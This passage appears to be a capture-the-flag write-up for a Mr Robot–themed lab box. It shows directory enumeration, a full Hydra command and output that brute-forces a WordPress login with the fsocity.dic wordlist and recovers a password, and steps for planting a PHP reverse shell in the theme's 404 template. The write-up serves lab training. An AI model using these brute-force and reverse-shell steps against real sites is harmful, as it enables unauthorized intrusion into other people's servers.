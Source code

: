 ```
/wp-signup (Status: 302)
/wp-signup.php (Status: 302)
=====================================================
2024/02/06 14:36:03 Finished
=====================================================
```

Looking at `http://IP/robots` we can find two interesting files:

```
fsocity.dic
key-1-of-3.txt <- the first flag
```

Knowing it is a wordpress, we are going to try to bruteforce the creds with the `fsocity.dic` wordlist at `http://IP/wp-login.php`.

```
>>> hydra -l Elliot -P fsocity.dic 10.10.164.16  http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-06 14:52:17
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:1/p:858235), ~53640 tries per task
[DATA] attacking http-post-form://10.10.164.16:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302
[STATUS] 712.00 tries/min, 712 tries in 00:01h, 857523 to do in 20:05h, 16 active
[STATUS] 572.33 tries/min, 1717 tries in 00:03h, 856518 to do in 24:57h, 16 active
[80][http-post-form] host: 10.10.164.16   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-06 14:57:44
```

![alt text](https://i.imgur.com/zcezbtU.png)

# Initial access

Now that we have access to the pannel, we will upload our reverse shell.
We will edit the apparence of and put this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Go to appearance then editor and replace the 404 Template with the reverse shell.
![alt text](https://i.imgur.com/d1kc9er.png)

Once you uploaded the reverse shell go to a page that don't exist like `IP/ananas` for example and boom we have a reverse shell :)
